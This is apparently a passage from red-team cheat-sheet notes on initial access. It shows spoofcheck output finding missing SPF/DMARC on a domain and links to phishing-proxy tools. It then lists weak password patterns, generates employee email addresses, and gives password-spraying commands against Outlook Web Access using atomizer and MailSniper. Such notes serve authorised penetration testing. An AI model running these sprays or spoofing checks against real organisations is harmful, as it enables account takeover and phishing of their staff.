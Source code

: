 Check weak email security.

```
# use spoofcheck
$ ./spoofcheck.py vault.io
[+] vault.io has no SPF record!
[*] No DMARC record found. Looking for organizational record
[+] No organizational DMARC record
[+] Spoofing possible for vault.io!
```

#### Resources
- https://github.com/BishopFox/spoofcheck
- https://github.com/kgretzky/evilginx2
- https://github.com/drk1wi/Modlishka

### Password Spraying

Common patterns:
- MonthYear
- SeasonYear
- DayDate
- OrgName123!

#### Address Generation

Address format

```
# collect names into text file
$ cat names.txt
Joe Boden
Larry Mickles
Sarah Black
[...]

$ /opt/namemash/namemash.py employees.txt | sed 's/$/@vault.io/g'
joe.boden@vault.io
jboden@vault.io
boden.joe@vault.io
[...]
```

##### Resources
- https://gist.github.com/superkojiman/11076951

#### Spray

```
# Using atomizer
/opt/SprayingToolkit/atomizer.py owa mail.vault.io January2020 emails.txt

# Using MailSniper
PS > ipmo C:\tools\MailSniper\MailSniper.ps1
PS > Invoke-PasswordSprayOWA -ExchHostname mail.vault.io -UserList .\known-emails.txt -Password Spring2021
```
